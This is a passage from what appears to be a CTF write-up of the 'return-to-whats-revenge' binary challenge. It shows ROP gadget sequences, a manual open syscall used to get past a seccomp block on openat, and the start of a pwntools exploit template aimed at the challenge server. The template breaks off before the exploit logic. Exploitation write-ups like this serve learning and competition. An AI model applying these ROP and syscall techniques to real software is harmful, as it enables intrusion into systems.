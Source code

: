 One obstacle I came across when trying to put this ROPchain together was that across the executable and libc I could not find a `mov rdi rax ; ret` gadget or similar. I ended up having to put that together something like this:
```python
push rax ; pop rbx ; ret
pop rdx ; ret
0x0
test edx, edx ; jne <some_address> ; ret
mov rdi, rbx ; jne <some_address> ; pop rbx ; ret
<padding>
```

Anyway, now that we have that, let's try the exploit!

Wait what. `SIGSYS`.

So, it turns out that this libc's implementation of the `open` function, `open64`, does not use the `open` syscall. Instead, it uses the slightly different `openat` syscall. Hmm, I guess we'll have to call the syscall manually:
```python
# the open syscall's number is 2
pop rax ; ret
0x2
syscall ; ret
```

Finally, here's my exploit script:
```python
#!/usr/bin/env python3

# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./return-to-whats-revenge
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./return-to-whats-revenge')
libc = None
host = "chal.duc.tf"
port = 30006

def local(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        p = process([exe.path] + argv, *a, **kw)
        # print the pid so I can attach a debugger
        print(p.pid)
        input()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''

    global one_gadget, libc

    if args.LOCAL:
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        return local(argv, *a, **kw)
    else:
        libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
        return remote(host, port)

#===========================================================
#                    EXPLOIT GOES HERE
```
